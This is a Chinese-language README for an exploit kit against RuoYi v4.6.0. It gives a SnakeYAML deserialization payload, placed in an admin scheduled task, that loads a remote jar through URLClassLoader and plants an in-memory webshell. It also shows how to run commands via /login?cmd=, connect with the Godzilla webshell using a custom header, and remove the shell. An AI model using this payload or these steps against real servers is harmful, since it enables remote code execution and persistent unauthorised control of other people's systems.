






## yaml-payload-for-ruoyi
### 测试环境
ruoyi v4.6.0

### 用法
使用 mvn clean package 打包生成 jar，或者直接下载 release 中的 jar，放在 web 路径下



ruoyi 后台创建定时任务



payload
```bash
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1:12346/yaml-payload-for-ruoyi-1.0-SNAPSHOT.jar"] 
  ]]
]')
```

执行定时任务



web 服务器接受到请求



执行命令 /login?cmd=whoami


哥斯拉连接，需要配置请求头 X-Cmd-Ruoyi: 任意字符串



连接地址 /login?cmd=1，有 cmd 参数即可



删除内存马 /login?cmd=delete

### 参考
1. https://xz.aliyun.com/t/10651
2. https://github.com/lz2y/yaml-payload-for-ruoyi